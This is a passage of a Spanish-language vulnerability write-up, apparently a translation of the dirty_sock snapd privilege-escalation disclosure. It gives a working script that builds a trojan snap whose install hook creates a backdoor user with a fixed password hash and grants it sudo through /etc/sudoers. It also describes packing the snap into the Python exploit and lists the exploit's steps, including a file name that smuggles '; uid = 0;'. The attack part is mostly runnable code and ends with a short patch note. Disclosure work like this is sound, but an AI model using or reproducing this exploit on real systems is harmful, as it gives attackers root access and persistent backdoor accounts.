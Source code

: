 ```sh
# Write the script we want to execute as root
cat > snap/hooks/install << "EOF"
#!/bin/bash

useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
EOF

# Configure the snap yaml file
cat > snap/snapcraft.yaml << "EOF"
name: dirty-sock
version: '0.1' 
summary: Empty snap, used for exploit
description: |
    See https://github.com/initstring/dirty_sock

grade: devel
confinement: devmode

parts:
  my-part:
    plugin: nil
EOF

# Build the snap
snapcraft
```

Dupdo

Si no confía en el blob que puse en el exploit, puede crear el suyo manualmente con el método anterior.

Una vez que tenemos el archivo snap, podemos usar bash para convertirlo a base64 de la siguiente manera:

```
$ base64 <snap-filename.snap>
```

Ese texto codificado en base64 puede ir a la variable global "TROJAN_SNAP" al comienzo del exploit dirty_sock.py.

El exploit en sí está escrito en Python y hace lo siguiente:

1.  Crea un archivo aleatorio con la cadena '; uid = 0;' en el nombre
2.  Vincula un socket a este archivo
3.  Se conecta a la API de snapd
4.  Elimina el troyano snap (si quedó de una ejecución anterior abortada)
5.  Instala el troyano snap (momento en el que se ejecutará el gancho de instalación)
6.  Elimina el troyano snap
7.  Elimina el archivo de socket temporal
8.  Te felicita por tu éxito

![captura de pantalla](https://initblog.com/images/post-dirtysock/screenshot.png#center)

# Protección / Remediación

¡Parchea su sistema! El equipo de snapd arregló esto inmediatamente después de mi divulgación.
